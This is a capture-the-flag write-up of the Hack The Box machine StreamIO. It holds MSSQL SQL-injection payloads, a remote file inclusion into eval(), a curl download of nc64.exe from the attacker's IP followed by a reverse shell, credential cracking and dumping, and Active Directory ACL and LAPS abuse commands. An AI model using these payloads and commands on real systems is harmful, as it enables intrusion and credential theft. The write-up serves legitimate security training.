<h1>HTB: StreamIO</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/StreamIO)   |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 21st 2026                                                   |

--- 

<h2>Enumeration</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.38.249 -oN nmap
```

This gave me the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can see that the target machine is running an `http` server on port 80 and `https` server on port 443 , a `dns server` on port 53, `ldap` on port 389, `kerberos` on port 88, and `windows remote management` on port 5985 among other things. We can also see that the machine domain is `streamIO.htb`.:

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-19 04:32:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb, Site: Default-First-Site-Name)
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: 2026-07-19T04:34:32+00:00; +6h59m56s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m55s, deviation: 0s, median: 6h59m55s
| smb2-time: 
|   date: 2026-07-19T04:33:26
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

Additionally the http server lists two names for the url `Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb` so let's add these domains to our /etc/hosts file.

Visiting the `streamio.htb` url we are greeted with the homepage for an `Online Movie Streaming` site:


Using the `Wappalyzer` browser extension we can see some additional information about the page such as that it is using `PHP 7.2.26`:



This tracks with what we can see from the url of the page being `stream.io/index.php`.

Before we dig too deep into this page lets check out the `watch.streamio.htb` page:



The page contains a simple ui that allows us to submit an email to be added to a `subscription` list.

<h3>Gobuster</h3>

Let's go back to the `streamio.htb` page and enumerate it further using GoBuster, a director enumeration tool. 

Since we know that we are dealing with a `Windows IIS` server what is using .php extensions for the page names as indicated by the main index.php page we can use the following GoBuster command to search for directories with .php or .aspx extensions:

```
sudo gobuster dir -u https://streamio.htb/ -w /usr/share/wordlists/dirb/common.txt -k  -t 25 -x php aspx
```

The `-k` flag tells GoBuster to ignore tls verification and the `-t 25` increased the enumeration speed by adding more threads.



Looking at the results we see that there is an `/admin` directory but when we visit it we get a `403 forbidden` response so lets redo the scan but this time adding the /admin/ to the end of the url:

```
sudo gobuster dir -u https://streamio.htb/admin/ -w /usr/share/wordlists/dirb/common.txt -k -t 25 -x php aspx
```



This time we find that within the `admin` directory there is a page called `master.php` which gives us a `200 OK` response so lets check that out:



There doesn't seem to be a clear attack path from here so lets run the same GoBuster enumeration but on the `watch.streamio.htb` page:

```
sudo gobuster dir -u https://watch.streamio.htb/ -w /usr/share/wordlists/dirb/common.txt -r  -k  -t 25 -x php aspx
```



Looking at the results we can see there are two new .php pages to take a look at, `blocked.php` and `search.php`.

The blocked.php page is a simple page that states `Malicious Activity detected!! Session Blocked for 5 minutes`. 



The search.php page returns something of more significant interest, a page to search for movies stored on the webserver:



A search field such as this is a great place to test for sql injection vulnerabilities!

<h3>SqlMap</h3>

Searching for a random movie such a 1408, we see the format of the post request is simply `q:"1408`:



Lets right click on the request and select `copy as curl` and attempt to use `sqlmap`:

```
 sqlmap 'https://watch.streamio.htb/search.php' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: https://watch.streamio.htb' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: https://watch.streamio.htb/search.php' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Priority: u=0, i' \
  --data-raw 'q=1' --random-agent
```



Running the SQLMap tool we see that we are redirected to the `blocked.php` page from earlier indicating that there is some sort of WAF (Web Application Firewall) in place.

This does not mean that an SQL Injection attack is not possible, just that we cannot use a noisy high traffic tool such as SQLMap. So lets try and do some manual enumeration:

<h3>Manual SQL Injection</h3>
Using a `Union select` attack we can enumerate the number of columns present in the database table and which ones are displayed in the search results. The command:

```
1408' UNION select 1,2,3,4,5,6-- -
```

returns the following search results:



We can see that the `1408` movie result is shown but there iis an additional row returned that shows a `2` and a `3` so we know that columns 2 and 3 are shown in the result!

Lets use this to gain more information about the DMS (Database Management System) by replacing the 2 in our search with `@@version`: 



So we know that the server is running `Microsoft SQL Server 2019` !

[PentestMonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) has a useful cheat sheet for MSSQL injection.

Using the command:

```
1408' UNION select 1,(select user_name()),3,4,5,6 -- -
```

We can see that the queries are being run as `db_user`:



Replacing `user_name()` with `DB_NAME()` will give us the name of the database itself `STREAMIO`:

```
1408' UNION select 1,(select DB_NAME()),3,4,5,6 -- -
```



We can use this information to determine the name(s) of the database table(s) using the query:

```
1408' UNION select 1,(SELECT name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6-- -
```

However this returns no results indicating that there is more than one table so we can instead use the query:

```
1408' UNION select 1, (SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6-- -
```

the `STRING_AGG(name, ',')` allows us to join our results into a single column in order to display the correctly in the returned table:



The `users` table looks promising so lets attempt to list the column of the table using the query:

```
1408' UNION select 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
```



Okay great! Now let's see if we can see the `username` and `password` columns using the query:

```
1408' UNION select 1,CONCAT(username, ':', password),3,4,5,6 FROM users-- 
```



The passwords appear to be encrypted so lets attempt to crack them using `HashCat`!

<h3>Hashcat</h3>

First we need to copy the credentials to a file such as `creds`:



then we can run the hashcat command to attempt to crack the passwords using the `rockyou` word list:

```
hashcat -m 0 creds /usr/share/wordlists/rockyou.txt --user
```

* The `--user` flash tells hashcat ro remove the `username:` before the password hash and then attempt to crack it.

Showing the cracked passwords we seen that though not all of them were cracked we did crack quite a few:



We can ten use the `yoshihide` credentials to login to the `streamio.htb` webpage!

Now that we have logged in lets try and visit the `/admin` page again to see if anything has changed:



This time we see that the /admin contains some management tools for users, staff, and movies as well as the ability to leave a message for the admin.

None of these provide a clear exploit path so we are most likely still missing something so lets keep enumerating using `FFUF`.

<h3>FFUF</h3>

Looking at the url when we click on any of the management/message pages we get a url such as this:

```
https://streamio.htb/admin/?user=
```

What ffuf allows us to do is associate a word list with a keyword and then we use that same keyword in our url parameter. Ffuf will iterate over the wordlist replacing the keyword with a word from the wordlist:

```
ffuf -u 'https://streamio.htb/admin/?FUZZ=' -w /usr/share/wordlists/dirb/common.txt:FUZZ
```

In this case the keyword is FFUF and so each iteration of the scan ffuf will replace the instance of FFUF in the url with a word from the wordlist.

However if we were to run the command as it is depicted above it would not work as the webserver would treat each ffuf request as an unauthenticated user meaning we would get no meaningful data. 

Going back to the admin page and opening the Firefix dev tools we can see that there is a specific `PHPSESSID` cookie that is associated with our authorized user session. This means that for our ffuf scan to work correctly we need to include this cookie header using the `-H` flag.

Running this however gives us a massive amount of results:



Looking at the results however we notice that they are all of the size `1678` meaning we can filter those results out with `-fs 1678`. Our final command then looks like this:

```
ffuf -u 'https://streamio.htb/admin/?FUZZ=' -w /usr/share/wordlists/dirb/common.txt:FUZZ -fs 1678 -H "Cookie: PHPSESSID=o84oknimqahi09q449sc6trqnf"
```

Looking at the results we see an additional page beyond the expected `movie`,`staff`, and `user` results:



However when we attempt to view the page we get an error telling us that `this option is for developers only`:



So how do we get around this?

Well we can use the base64-encode php filter to perform a Local File Inclusion (LFI) attack and display webpage source code in base64 format. 

Let's test this by attempting to display the index.php page by visiting the url:

```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```



After copying this base64 string into a file such as `index` on our attack machine we can decode it using the command:

```
cat index | base64 -d >index.php
```

Then we can view the index.php file using the less command:



Now that we know we can successfully retrieve a pages source code lets try and retrieve the `master.php` file from earlier which is a simple as altering the previous php filter url to point to master.php:

```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php
```



We can then copy it to a file a decode same as we did before. Looking at the decoded source code we se something very interesting at the very bottom:



The master.php file has an `include` parameter that is passed into the `file_get_contents()` function which is included in an `eval()` opening the door for remote code execution!

<h2>Exploitation</h2>

<h3>BurpSuite</h3>

Lets begin out exploitation by opening BurpSuite and going to the proxy tab, there should be a button an `Open browser` button.

* NOTE: If ou get an error about the burp browser not being allowed to run without a sandbox go to the Burp settings:



 * Then under the tools dropdown on the left side click on `Burp's Browser` and click the checkbox `Allow Burp's browser to run without a sandbox`:



Now we can turn `intercept` on and open the burp browser entering in the `https://streamio.htb/admin/?debug=master.php` into the search bar:



The request is then intercepted by BurpSuite and we can right-click on the request and click `Send to Repeater`:



In the repeater tab we will have to make some adjustments to our request:

1. We need to copy our `PHPSESSID` cookie from our authorized user session and replace the current value in our Burp request.

2. We need to alter the change the request method from GET to POST, Burp make4s this east as we simply have to right-click on our request and select `Change request method`:



3. At the very bottom of the request we need to replace the `debug=` with `include=`.

We are now ready to create our malicious php file!

We need to make sure that we can actually use this to execute code on the target machine so we will first create a file called `test.php` which contains a system call:

```
system('whoami')
```

Then we can create a python web server while we are in the same directory as the test.php file using the command:

```
sudo python3 -m http.server 80
```

Then back in our Burp repeater tab we can alter the `include=` to equal to `http://10.10.15.16/test.php`


Our finished request should look something like this:



When we sent this request it the test.php file will be passed into the get_file_contents() function which will return the contents ie the `system('whoami')` call which is then evaluated by the `eval()` function:



At the very bottom of the response we can see that our system call was executed and the results displayed.

So we now know that we can execute commands on the target machine, let's use this to gain a reverse shell!

The first thing we need to do is get the `nc64.exe` netcat executable onto the machine so we need to alter the test.php file to contain:

```
system("curl 10.10.15.16/nc64.exe -o c:\\windows\\temp\\nc64.exe");
```

This will retrieve the nc64.exe executable from our python web server and store it in the `C:\Windows\temp` directory.

We can then include another system call after it in the test.php file initiating the reverse shell:

```
system("c:\\windows\\temp\\nc64.exe 10.10.15.16 1234 -e cmd.exe");
```

With our new malicious php file ready we first need to set up a netcat listener by running:

```
nv -lvnp 1234
```

Then we can send another post request using BurpSuite Repeater and check our listener for a connection:



Success! We now have a reverse shell on the target machine.

<h2>Lateral Movement</h2>

Interestingly `yoshihide` does not have a home directory on the target machine:



Lets check for open local ports using the `netstat -a` command:



We can see from the results that local port 1433 is open and listening, this port is associated with Microsoft SQL Server meaning there is a local instance running. So how can we interact with it?

Looking back at the source code for `index.php` we can see the line:

```
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => '************');
```

This provides us with some credentials we can use!

<h3>SQLCMD</h3>

In terms of actually querying the database we can set up a chisel server to access port 1433 on the target machine from our attack box but lets se4e if there is a local option available. Based on this [article](https://theitbros.com/query-sql-server-with-invoke-sqlcmd/) we can directly query the database with the `SQLCMD` tool, so lets see if it is installed:



The `SQLCMD` tool is installed so lets use it to query and get the database name:

```
sqlcmd -S '(local)' -U db_admin -P '***********' -Q 'SELECT DB_NAME();'
```



Lets see what other databases are available using the query:

```
sqlcmd -S '(local)' -U db_admin -P '************' -Q 'SELECT name FROM master..sysdatabases;'
```



Listing all the databases we see some standard stock MSSQL databases as well as the STREAMIO database, all of which was expected. However we see an additional `streamio_backup` database so lets explore that further by first switching to it:

```
sqlcmd -S '(local)' -U db_admin -P '***********' -Q 'USE streamio_backup;'
```

After querying the `user` database for the username and password column and seeing no difference I queries the database name and it still said it was in `master` so running the query does not switch it for following queries.

This means we need execute multiple queries in one command:

```
sqlcmd -S '(local)' -U db_admin -P 'B1@hx31234567890' -Q 'USE STREAMIO_BACKUP; SELECT username,password FROM users;'
```



This time the results are difference as far fewer usernames/passwords are returned and there is a new user `nikk37`.

Lets get some more information on the user by running the command:

```
net user nikk37
```



It looks like they are a member of the remote management group! This is very useful as we know from the nmap scan that the target machine is running a WinRM server on port 5985.

<h3>HashCat</h3>

Lets copy and paste nikk37's password hash into a file and try to crack it using hashcat:

```
hashcat -m 0 nikk37.hash -D 1 /usr/share/wordlists/rockyou.txt
```



We have successfully cracked the hash and gained new credentials so lets try and login using `evil-winrm`.

<h3>Evil-WinRM</h3>

We can login using the command:

```
evil-winrm -i streamio.htb -u nikk37 -p '*************'
```

The user flag is then in nikk37's Desktop folder:



<h2>Privilege Escalation</h2>

Now that we have access to the machine let's upload and run `WinPEas` a windows privilege escalation script. 

<h3>WinPEAS</h3>

First lets copy the `winPEASx64.exe` file from its kali location to the directory we ran our `evil-winrm` login from:

```
cp /usr/share/peass/winpeas/winPEASx64.exe .
```

Then we can simply upload it to the target machine from out evil-winrm shell using the `upload` command:



We can then run it with `.\winPEASx64.exe`:




Scrolling through the results we see something interesting in under the `Browser Information` section:



WinPEAS has found a firefox credentials database file at `C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db`

However by default this file in encrypted so let's copy this `key4.db` file over to our target machine along with the `logins.json` file and attempt to decrypt it using [firepwd](https://github.com/lclevy/firepwd).

<h3>Firepwd</h3>

After cloning the repo and installing the requirements we can run the command:

```
python3 firepwd.py -d ../key4.db
```

* The `..\` is because my key4.db and logins.json file were in the parent directory 

At the bottom of the command output we can see some new credentials:



Testing the credentials we find that a valid username and password combination was found in this list for user `JDgodd` (Think how you could compare all the username/password combinations).

This user however does not have remote management permissions as when trying to use evil-winrm or xfreerdp we get an error. Let's try to gain some more information by using these new cred's to enumerate the system using `bloodhound-python`!

<h3>Bloodhound-python</h3>

First we need to add `dc.streamio.htb` to our /etc/hosts file.

Then we can run the command:

```
bloodhound-python -c All -d streamio.htb -u JDgodd -p '***************' -dc dc.streamio.htb -ns 10.129.40.137
```

Running this you may see an `Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` error after it states it is trying to het the TGT for the user. To fix this simply run:

```
sudo rdate -n 10.129.40.137
```

And run the command again.

After successfully running the command we should see a series of .json file in the directory we ran the command in. We need to upload these files to bloodhound which will provide us with a nice graphical interface.


<h3>BloodHound</h3>

After starting bloodhound we need to upload the files:



First lets mark all the users that we have valid credentials for as `Owned` as this will be helpful for when we run our BloodHound Queries:








Now we can use one of BloodHound's most useful features, the Cypher Queries. Though you can write your own, BloodHound comes with a series of Saved Queries we can use immediately. The one we will focus on here is the Shortest paths from Owned objects, which provides us with an attack path starting at any object we have marked as Owned. In our case, this will provide us with an attack path starting at the `JDgodd`, `n1kk37`, and `yoshirun`.


This is going to provide us with a very large and overwhelming graph but we are mainly interested in the `JDgodd` user so lets zoom in on them:



So we can see here that `JDgodd` has `WriteOwner` controls/permissions over the `CORE STAFF` maning they can change the oenwer of the group.

Clicking on the permission we are provided with a sidepanel that contains a `Windows Abuse` dropdown. This provides us with the exact command we need in order to exploit this permission:



However in order to run these command on out `n1kk37` evil-winrm shell we will need to upload and run the `Powerview.ps1` script which provides a number doimain enumeration functions :



We can then begin exploiting our permission by first setting up a $cred variable containing our `JDgodd` credentials so we can authenticate to the Domain Controller since we are not running as that user but instead as `n1kk37`:

```
$SecPassword = ConvertTo-SecureString '**************' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',$SecPassword)
```

We can now use this `$cred` variable to authenticate to the DC and change ownership of the `CORE STAFF` group:

```
Set-DomainObjectOwner -Credential $Cred -Identity "CORE STAFF" -OwnerIdentity JDgodd
```

Then we can give `WriteMembers` permissions to `JDgodd`:  

```
Add-DomainObjectAcl -Cred $cred -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Rights All
```

and than add them to the `CORE STAFF` group:

```
Add-DomainGroupMember -Cred $cred -Identity 'CORE STAFF' -Members 'JDgodd' 
```

Then we can check our group membership by running:

```
net user JDgodd
```



Now that we are apart of the `CORE STAFF` group we can use the this groups `ReadLAPSPassword` to readd the Administrators password from LAPS (Local Administrator Password Solution) using the `ldapsearch` tool.

<h3>ldapsearch</h3>

Using the ldap search command:

```
ldapsearch -H ldap://streamio.htb -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w '<Password>' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

We can view the administrators password!:



We can use these new Administrator credentials to login using Evil-WinRM:



The root.txt flag can then be found in the Desktop folder of the martin user, thus solving the challenge!


